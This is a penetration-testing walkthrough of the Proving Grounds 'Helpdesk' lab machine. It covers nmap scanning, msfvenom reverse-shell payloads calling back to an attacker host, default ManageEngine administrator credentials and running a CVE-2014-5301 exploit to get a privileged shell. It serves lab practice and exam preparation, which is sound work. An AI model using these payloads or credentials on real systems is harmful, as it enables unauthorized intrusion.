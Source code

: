 ```yaml
---
title: Helpdesk Walkthrough - Proving Grounds
description: "Walkthrough of the Helpdesk machine from Proving Grounds "
author: Cyber Operator
date: 2024-07-24T14:48:18.308Z
tags:
  - Exploitable
---
```

# Helpdesk Exploitation Walkthrough

This machine is under the "Easy" level of Proving Grounds, it is valuable for general pentest practice or for exam preparation (such as OSCP etc).  This walkthrough may be completed under various sessions, you may see the target IP address change.

Step by step:

1. ## Scan with NMAP:

I like to do two nmap scans, one a very simple pass with the standard options.  This is mostly to have something to look at while waiting for the more detailed scan results, which follow this command:

`nmap -sC -sV --script vuln -p- [target IP]`

This will do a version scan, basic vulnerability check and scan all ports.  It takes time, good idea to let it run while we explore based on the simple scan results.

Here are the detailed scan results:

![](/static/img/screenshot-2024-07-24-at-11.26.36 am.png)

![](/static/img/screenshot-2024-07-24-at-11.27.38 am.png)

Right from the results, we see that there is a webserver in port 8080 and that there are some vulnerabilities (maybe user input fields, or a form).  So let's visit the site (IP:port combination) to see what's there:

![](/static/img/screenshot-2024-07-24-at-11.30.46 am.png)

There may be something there, let's see what else we can find first.  We see that this is a Windows Server, 2008 R2, RPC port, Microsoft Terminal service, SMB (an interoperability service) and some magic found in the form of CVE-2009-3103 "execute arbitrary code".  As interesting as the 8080 server is, this one seems like a juicier starting point so let's start there.

## 2. Exploitation

We find an exploit in Exploit DB, including the command to use msfvenom to generate the required shellcode:

![](/static/img/screenshot-2024-07-24-at-11.43.17 am.png)

Specifically, we need to download the exploit code, then replace the shellcode in the download with our own generated shellcode.  We will generate that shellcode using the following command (can be found as a comment on the exploit code)

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=[attacker IP] LPORT=[attacker port, such as 443]  EXITFUNC=thread  -f python`

Next, we generate our shellcode for our payload:

![](/static/img/screenshot-2024-07-24-at-11.50.17 am.png)

We now copy our payload into our downloaded exploit code, which we can edit using a text edit tool, here we used nano:

![](/static/img/screenshot-2024-07-24-at-11.55.49 am.png)

Now we have a ready exploit!  You can execute from there but we probably never needed to get here because there is an even easier way!

Before executing that, let's go back to our other identified vulnerability on the webserver (why are we doing this: it always helps to have multiple attack surfaces!)

Here is the lesson, always use Google and never forget to try default credentials!  Here, we know that the service used is ManageEngine Service desk.  So a simple Google search for default credentials reveals administrator:administrator!

![](/static/img/screenshot-2024-07-24-at-12.24.24 pm.png)

And we are successfully into the service:

![](/static/img/screenshot-2024-07-24-at-12.27.38 pm.png)

We are authenticated, which increases our list of potential exploits.  Let's search using searchsploit to see what's out there:

![](/static/img/screenshot-2024-07-24-at-12.42.35 pm.png)

CVE-2014-5301 looks promising!

![](/static/img/screenshot-2024-07-24-at-12.47.26 pm.png)

We create a reverse shell package:

`msfvenom -p java/shell_reverse_tcp LHOST=192.168.49.52 LPORT=4444 -f war > shell.war`

Then download our exploit:

![](/static/img/screenshot-2024-07-24-at-12.53.55 pm.png)

And execute the exploit:

`python3 CVE-2014-5301.py [target IP] 8080 administrator administrator shell.war`

![](/static/img/screenshot-2024-07-24-at-12.59.21 pm.png)

And we get a connection with a privileged shell on our listener window!

![](/static/img/screenshot-2024-07-24-at-1.00.50 pm.png)

Then we move to the Administrator's Desktop and find our flag.

![](/static/img/screenshot-2024-07-24-at-1.02.27 pm.png)
